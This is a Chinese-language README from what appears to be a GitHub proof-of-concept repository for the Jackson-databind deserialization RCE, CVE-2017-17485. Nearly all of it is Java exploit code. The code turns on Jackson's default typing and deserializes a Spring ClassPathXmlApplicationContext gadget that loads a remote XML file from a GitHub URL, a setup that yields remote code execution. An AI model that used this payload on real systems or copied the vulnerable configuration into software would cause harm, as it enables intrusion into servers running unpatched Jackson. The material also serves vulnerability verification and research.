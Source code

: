 # Jackson 反序列化

本war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的 https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln

## 验证代码

```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```

![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
